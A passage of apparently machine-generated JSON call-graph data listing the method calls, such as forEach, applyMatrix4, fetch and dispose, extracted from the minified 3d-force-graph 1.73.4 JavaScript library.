"source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "computeLineDistances"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromBufferAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "raycast"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "intersectsSphere"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "invert"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMorphTargets"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onLoading"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fetch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "json"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onFinishLoading"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "graphData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "force"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "strength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "alphaDecay"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "alphaTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "velocityDecay"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "_rerender"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "force"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "force"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "alpha"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "resetCountdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "alpha"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onEngineStop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onEngineTick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getNodePosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "nodePositionUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getLinkPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "subVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "multiplyScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyAxisAngle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addVectors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "divideScalar"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getLinkPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFromPoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "computeBoundingSphere"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeTranslation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeRotationX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "distanceTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "localToWorld"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getLinkPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cbrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cbrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "localToWorld"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lookAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getLinkPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "computeBoundingBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "applyMatrix4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "force"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "force"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "force"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "force"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cbrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeTranslation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "makeRotationX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rotateX"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "alpha"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "numDimensions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "nodes"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "force"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "links"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "every"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "values"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "force"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "strength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dagNodeFilter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "graph"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addLink"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forcelayout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "resetCountdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onFinishUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "handleResize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "connect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disconnect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "handleResize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", 